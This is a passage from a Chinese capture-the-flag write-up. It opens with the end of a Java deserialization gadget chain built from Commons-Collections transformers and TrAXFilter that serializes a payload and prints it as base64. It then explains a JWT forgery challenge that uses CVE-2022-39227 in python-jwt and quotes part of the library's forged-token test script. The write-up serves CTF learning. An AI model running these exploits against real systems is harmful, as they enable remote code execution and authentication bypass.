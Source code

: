 ```java

        // mock method name until armed
        Class[]  paramTypes = new Class[]{String.class};
        Object[] args       = new Object[]{"su18"};
        InstantiateTransformer instantiate = new InstantiateTransformer(
                paramTypes, args);

        // grab defensively copied arrays
        paramTypes = (Class[]) Reflections.getFieldValue(instantiate, "iParamTypes");
        args = (Object[]) Reflections.getFieldValue(instantiate, "iArgs");

        ChainedTransformer chain = new ChainedTransformer(new Transformer[]{constant, instantiate});

        // create queue with numbers
        PriorityQueue<Object> queue = new PriorityQueue<Object>(2, new TransformingComparator(chain));
        queue.add(1);
        queue.add(1);

        // swap in values to arm
        Reflections.setFieldValue(constant, "iConstant", TrAXFilter.class);
        paramTypes[0] = Templates.class;
        args[0] = templates;

        String b64 = base64Encode(serialize(queue));
        System.out.println(b64);
    }
}

```

![image-20221031111228244](https://tuchuang.huamang.xyz/img/image-20221031111228244.png)

## Funweb

这个题目，找了好久的洞都没找到啥，后来仔细想了一下，这里用了jwt去做验证，而且获取admin权限是必须的，所以肯定得从jwt来下手，但是这里的jwt是用PS256算法的是非对称加密，不能直接爆破密钥，所以只能另寻他路，而这里爆出了个[CVE-2022-39227](https://github.com/davedoesdev/python-jwt/commit/88ad9e67c53aa5f7c43ec4aa52ed34b7930068c9)

>jwcrypto accepts both compact and JSON formats.
>It was possible to use this to present a token with arbitrary
>claims with a signature from another valid token.

而且官方直接给了测试脚本

```python
from datetime import timedelta
from json import loads, dumps
from test.common import generated_keys
from test import python_jwt as jwt
from pyvows import Vows, expect
from jwcrypto.common import base64url_decode, base64url_encode

@Vows.batch
class ForgedClaims(Vows.Context):
    """ Check we get an error when payload is forged using mix of compact and JSON formats """
    def topic(self):
        """ Generate token """
        payload = {'sub': 'alice'}
        return jwt.generate_jwt(payload, generated_keys['PS256'], 'PS256', timedelta(minutes=60))

    class PolyglotToken(Vows.Context):
        """ Make a forged token """
```